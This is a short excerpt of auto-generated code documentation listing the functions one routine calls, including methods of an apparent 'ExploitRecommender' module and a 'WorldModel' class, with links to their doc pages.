*Calls:* [`print_msg`](core.console.py.md#print_msg), [`ExploitRecommender.__init__`](modules.exploit_recommender.py.md#exploitrecommender-__init__), [`ExploitRecommender.persist_recommendations`](modules.exploit_recommender.py.md#exploitrecommender-persist_recommendations), [`ExploitRecommender.recommend`](modules.exploit_recommender.py.md#exploitrecommender-recommend), [`WorldModel.__init__`](modules.world_model.py.md#worldmodel-__init__)

---
